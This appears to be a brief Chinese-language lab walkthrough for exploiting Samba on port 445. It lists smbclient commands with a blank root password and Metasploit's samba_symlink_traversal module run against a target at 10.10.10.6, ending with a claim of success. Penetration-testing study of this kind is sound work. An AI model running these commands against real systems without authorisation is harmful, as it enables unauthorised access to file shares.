




# 445_Samba.md

445端口开启了smb服务

先查看share目录

> smbclient -L //10.10.10.6

root这里没有密码可以直接回车

使用msf加载模块脚本

> search smb

选择模块

>  use auxiliary/admin/smb/samba_symlink_traversal

设置目标靶机

> set RHOSTS 10.10.10.6

设置share目录

>  set SMBSHARE tmp

查看设置

> options

开始利用

> exploit

回到smbclient

> smbclient  //10.10.10.6/tmp

进行登录

利用成功